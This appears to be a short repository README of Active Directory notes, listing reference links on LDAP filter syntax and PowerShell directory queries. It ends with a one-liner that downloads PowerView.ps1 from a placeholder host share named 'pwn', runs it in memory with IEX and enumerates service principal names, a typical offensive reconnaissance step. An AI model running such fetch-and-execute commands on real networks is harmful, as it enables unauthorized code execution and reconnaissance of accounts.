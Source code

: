 # ad-scripts-n-bits

LDAP Search Terms & Syntax (Best resource)
- https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx

Case Studies
- https://www.jaapbrasser.com/tag/ldap-query/

LDAP Filter Syntax
- https://docs.fortinet.com/document/fortiauthenticator/6.0.3/administration-guide/851122/ldap-filter-syntax

Powershell Directory Tree Query Terms
- https://devblogs.microsoft.com/scripting/use-powershell-to-query-active-directory-from-the-console/

Powershell LDAP Query Terms
- https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query





Enum SPN's Oneliner SMBv2

```IEX(New-Object Net.webClient).downloadString('\\<IPADDRESS>\pwn\PowerView.ps1');Get-SPN -type service -search "*" -List yes | Format-Table -AutoSize```
